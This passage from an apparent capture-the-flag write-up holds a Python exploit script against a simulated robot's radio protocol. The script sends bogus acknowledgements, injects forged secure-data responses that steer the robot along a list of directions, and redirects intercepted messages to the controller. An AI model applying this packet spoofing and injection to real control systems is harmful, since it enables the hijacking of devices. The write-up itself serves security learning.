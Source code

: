 ```python
    None, None, None, 'east', 
    None, 'south', 
    None, 'east',
    None, 'north',
    None, 'west',
    None, 'south',
    None, 'east',
    None, 'north',
    None, 'east',
    None, 'south'
]

async def exploit():
    global nonce 
    global target_path 
    
    print(target_path)
    
    start_robot()

    while True:
        messages = receive_radio_messages()
            
        for msg in messages:
            print_pkt(msg)
                
            if msg['dst'] == ME:
                if msg['msg_type'] == 'secure_data':
                    print('Received SDATA / Sending Bogus SDACK')
                    await bogus_ack()
                elif msg['msg_type'] == 'secure_data_request':
                    if len(target_path) > nonce:
                        await inject_packet('secure_data_response', nonce, ROBOT, target_path[nonce])
                        nonce += 1
                    else:
                        print('Finished target path, quitting!')
                        bogus_response()
                else:
                    msg['dst'] = CONTROLLER     
                    print_pkt(msg)
                    inject_radio_message(msg)
                            
                            
asyncio.run(exploit())
```

## Flag
